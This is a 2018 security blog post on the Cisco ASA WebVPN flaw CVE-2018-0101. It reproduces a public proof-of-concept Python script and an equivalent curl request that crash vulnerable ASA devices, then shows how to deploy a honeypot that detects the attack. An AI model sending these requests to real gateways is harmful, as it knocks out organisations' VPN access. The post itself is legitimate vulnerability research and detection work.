 ```yaml
---
layout: post
title:  "Exploiting & Honeypotting Cisco ASA CVE-2018-0101"
tagline: "A closer look at CVE-2018-0101"
description: "A closer look at CVE-2018-0101 detailing how to exploit it and how to create a honeypot to detect it."
tags: [notes, cisco, exploits, honeypot]
date:   2018-02-10
comments: true
image:
  feature: blog/3/feature.jpg
  hero: blog/3/header.jpg
---
```


## Summary
**On 29 January 2018** [CVE-2018-0101](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20180129-asa1) - A Remote Code Execution and Denial of Service Vulnerability for Cisco ASA Web VPN - was published featuring a CVSS Base Score of 10.

For those unfamiliar, Common Vulnerability Scoring System or CVSS is a standard used for assessing the severity of vulnerabilities. The score ranges from 0 to 10 with 10 being the most serious.


## Proof of concept

**On 02 February 2018** [@saidelike](https://twitter.com/saidelike) gave a talk titled ["Robin Hood vs Cisco ASA Anyconnect"](https://recon.cx/2018/brussels/resources/slides/RECON-BRX-2018-Robin-Hood-vs-Cisco-ASA-AnyConnect.PDF) at Recon Brussels in which he included some XML on slide 19.

![](/assets/img/blog/3/slide19.png)

*Slide 19 from Robin Hood vs Cisco ASA Anyconnect*

**On 5 February 2018** a proof of concept was published by [@zerosum0x0](https://twitter.com/zerosum0x0), [@jennamagius](https://twitter.com/jennamagius), and [@aleph__naught](https://twitter.com/Aleph___Naught) on [pastebin](https://pastebin.com/YrBcG2Ln). At first glance it appears to be a python script that sends a request to the server using the XML found earlier in the slides and some other required headers.

```python
#
# Cisco ASA CVE-2018-0101 Crash PoC
#
# We basically just read @saidelike slides:
# https://www.nccgroup.trust/globalassets/newsroom/uk/events/2018/02/reconbrx2018-robin-hood-vs-cisco-asa.pdf
#
# @zerosum0x0, @jennamagius, @aleph___naught
#

import requests, sys

headers = {}
headers['User-Agent'] = 'Open AnyConnect VPN Agent v7.08-265-gae481214-dirty'
headers['Content-Type'] = 'application/x-www-form-urlencoded'
headers['X-Aggregate-Auth'] = '1'
headers['X-Transcend-Version'] = '1'
headers['Accept-Encoding'] = 'identity'
headers['Accept'] = '*/*'
headers['X-AnyConnect-Platform'] = 'linux-64'
headers['X-Support-HTTP-Auth'] = 'false'
headers['X-Pad'] = '0000000000000000000000000000000000000000'

xml = """<?xml version="1.0" encoding="UTF-8"?>
<config-auth client="a" type="a" aggregate-auth-version="a">
    <host-scan-reply>A</host-scan-reply>
</config-auth>
"""

r = requests.post(sys.argv[1], data = xml, headers = headers, verify=False, allow_redirects=False)

print(r.status_code)
print(r.headers)
print(r.text)

```

So let's go ahead and test it out!

```shell
wget https://pastebin.com/raw/YrBcG2Ln -O poc-cve-2018-0101.py
python3 poc-cve-2018-0101.py https://ciscoasa.glitchwitch.io
```

Using the PoC results in the following request, confirming my earlier first glance reading.

```http
POST / HTTP/1.1
Host: ciscoasa.glitchwitch.io
User-Agent: Open AnyConnect VPN Agent v7.08-265-gae481214-dirty
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
X-Aggregate-Auth: 1
X-Transcend-Version: 1
X-AnyConnect-Platform: linux-64
X-Support-HTTP-Auth: false
X-Pad: 0000000000000000000000000000000000000000
Content-Length: 156

<?xml version="1.0" encoding="UTF-8"?>
<config-auth client="a" type="a" aggregate-auth-version="a">
    <host-scan-reply>A</host-scan-reply>
</config-auth>

```

With this in mind, the same request can be made using curl.
```shell_session
curl -i -s -k  -X $'POST' \
    -H $'Host: ciscoasa.glitchwitch.io' -H $'User-Agent: Open AnyConnect VPN Agent v7.08-265-gae481214-dirty' -H $'Accept-Encoding: gzip, deflate' -H $'Accept: */*' -H $'Connection: close' -H $'Content-Type: application/x-www-form-urlencoded' -H $'X-Aggregate-Auth: 1' -H $'X-Transcend-Version: 1' -H $'X-AnyConnect-Platform: linux-64' -H $'X-Support-HTTP-Auth: false' -H $'X-Pad: 0000000000000000000000000000000000000000' -H $'Content-Length: 156' \
    --data-binary $'<?xml version=\"1.0\" encoding=\"UTF-8\"?>\x0a<config-auth client=\"a\" type=\"a\" aggregate-auth-version=\"a\">\x0a    <host-scan-reply>A</host-scan-reply>\x0a</config-auth>\x0a' \
    $'https://ciscoasa.glitchwitch.io/'
```    

Ultimately if the server is vulnerable this request should cause the system to crash. In tests on Cisco ASA 9.2(4), this was the case.

## Honey Pot
Okay, so we've got a working PoC in both python and a curl request. Now let's setup a honey pot!

**On 08 February 2018** [@omercent](https://twitter.com/omercnet) from cymmetria [released a honeypot tool](https://cymmetria.com/blog/honeypot-cisco-asa-vulnerability/) for the detection of this vulnerability. So let's go ahead and get that setup.
```shell_session
git clone https://github.com/Cymmetria/ciscoasa_honeypot.git
cd ciscoasa_honeypot
pip3 install --upgrade -r requirements.txt
```
Once that's done we can start it up.
```shell_session
python3 asa_server.py --help
Usage: asa_server.py [OPTIONS]

  A low interaction honeypot for the Cisco ASA component capable of
  detecting CVE-2018-0101, a DoS and remote code execution vulnerability

Options:
  -h, --host TEXT         Host to listen
  -p, --port INTEGER      Port to listen
  -i, --ike-port INTEGER  Port to listen for IKE
  -s, --enable_ssl        Enable SSL
  -c, --cert TEXT         Certificate File Path (will generate self signed
                          cert if not supplied)
  -v, --verbose           Verbose logging
  --help                  Show this message and exit.

python3 asa_server.py -p 443 -s
```

Now if we run the PoC on our honeypot we should see the following

```shell_session
CRITICAL:root:{'data': ['A'], 'src': '10.0.0.32', 'spt': 41392}
```

## Conclusion

CVE-2018-0101 is a critical flaw and is more than just a DoS vulnerability. The vulnerability also allows remote unauthenticated attackers to perform Remote Code Execution. Although at the time of writing this, no PoC code currently exists to demonstrate the rce portion.

A big thanks to [@saidelike](https://twitter.com/saidelike), [@zerosum0x0](https://twitter.com/zerosum0x0), [@jennamagius](https://twitter.com/jennamagius),  [@aleph__naught](https://twitter.com/Aleph___Naught), and [@omercent](https://twitter.com/omercnet) for all of their work.
